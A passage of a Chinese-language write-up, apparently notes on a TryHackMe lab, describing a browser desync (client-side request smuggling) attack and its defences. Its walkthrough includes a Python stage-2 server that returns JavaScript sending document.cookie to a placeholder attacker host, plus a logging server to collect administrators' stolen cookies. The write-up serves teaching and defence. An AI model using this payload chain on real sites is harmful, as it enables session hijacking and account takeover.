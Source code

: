 *   **利用步骤总结 (THM 示例):**
    1.  **确认漏洞:** 使用 `fetch` 测试目标站点是否存在浏览器不同步漏洞（例如，访问 `/` 之后再访问 `/` 看到对 `/redirect` 的 404）。
    2.  **寻找注入点:** 在目标站点找到一个功能，允许攻击者存储一些内容，这些内容随后会被其他用户（特别是管理员）查看。例如，反馈表单，提交后生成一个固定 URL 的页面 (`/vulnerablecontact`) 等待管理员审核。
    3.  **构造 Stage 1 Payload (注入到反馈表单):** 上述的 HTML 表单，其中 `action` 指向目标站点，`textarea name` 中的 `GET` 请求指向攻击者控制的 Stage 2 服务器的特定路径（例如 `http://YOUR_IP:1337`）。
    4.  **设置 Stage 2 服务器 (Python, 端口 1337):** 此服务器在被请求时（由受害者浏览器因前一步的走私请求而访问），返回一个执行 Stage 3 操作的 JavaScript。
        ```python
        # attacker_stage2_server.py (运行在 YOUR_IP:1337)
        from http.server import BaseHTTPRequestHandler, HTTPServer

        class ExploitHandler(BaseHTTPRequestHandler):
            def do_GET(self):
                if self.path == '/': # 或特定路径
                    self.send_response(200)
                    self.send_header("Access-Control-Allow-Origin", "*") # 确保JS可以跨域执行
                    self.send_header("Content-type","text/html") # 或 application/javascript
                    self.end_headers()
                    # 返回的JS会向Stage 3服务器发送Cookie
                    self.wfile.write(b"fetch('http://YOUR_IP:8080/?c=' + document.cookie)") # YOUR_IP:8080是Stage 3

        # ... (运行服务器的代码) ...
        ```
    5.  **设置 Stage 3 服务器 (Python HTTP 服务器, 端口 8080):** 一个简单的 HTTP 服务器，用于接收并记录从受害者浏览器发送过来的 Cookie。
        ```bash
        sudo python3 -m http.server 8080
        ```
    6.  **等待管理员访问:** 当管理员访问 `/vulnerablecontact` 页面（其中包含攻击者注入的 Stage 1 HTML 表单并自动提交）时，管理员的浏览器连接被污染。当管理员的浏览器后续请求该站点的任何资源时，会先请求 Stage 2 服务器 (`YOUR_IP:1337`)，获取并执行其返回的 JavaScript，该 JavaScript 再将管理员的 Cookie 发送到 Stage 3 服务器 (`YOUR_IP:8080`)。攻击者在 Stage 3 服务器的日志中查看窃取到的 Cookie。

## 注意事项 (Important Considerations)

*   **SameSite Cookie 策略:** 现代浏览器对 Cookie 的 `SameSite` 属性有严格的策略。然而，在浏览器不同步攻击中，由于最终的恶意请求（例如窃取Cookie的`fetch`）是在受害者浏览器上下文、针对目标域（或由目标域信任的域）执行的，`SameSite` 限制可能不适用或可以被绕过，特别是当注入的请求是从目标域本身发起的。
*   **连接保持:** 攻击的成功依赖于浏览器和服务器之间保持持久连接 (`Keep-Alive`)。
*   **复杂性:** 这种攻击通常比传统的服务器端请求走私更复杂，需要仔细构造 payload 并理解浏览器的行为。

## 防御策略 (Defense Strategies)

1.  **Web 服务器/库更新:** 及时更新 Web 服务器软件（如 Nginx, Apache）和 Web 应用框架/库（如 Werkzeug, Flask, Django），修复已知的请求处理和连接管理漏洞。
2.  **禁用或正确配置 Keep-Alive/Pipelining:** 如果业务允许，可以考虑禁用 `Keep-Alive` 或 HTTP 管道，但这通常会影响性能。更实际的是确保服务器正确实现这些特性，严格遵循 HTTP 规范，正确解析请求边界。
3.  **请求验证与规范化:** 服务器端应严格验证请求的格式，特别是 `Content-Length` 和请求体的实际内容。对于意外的请求体内容或格式不正确的请求，应拒绝处理。
4.  **WAF/IDS 规则:** 虽然难以完全覆盖，但可以尝试部署 WAF/IDS 规则来检测异常的请求模式，例如 POST 请求体中包含完整的 HTTP 请求行。
5.  **安全的会话管理:** 使用 `HttpOnly` 和 `Secure` 标志保护 Cookie，并实施严格的 `SameSite` 策略，但这不能完全阻止此类攻击，因为攻击可能在同站上下文中发生。
6.  **内容安全策略 (CSP):** 实施严格的 CSP，限制可以执行脚本的来源，以及脚本可以连接到的外部域，这可以减轻 XSS 串联攻击的影响。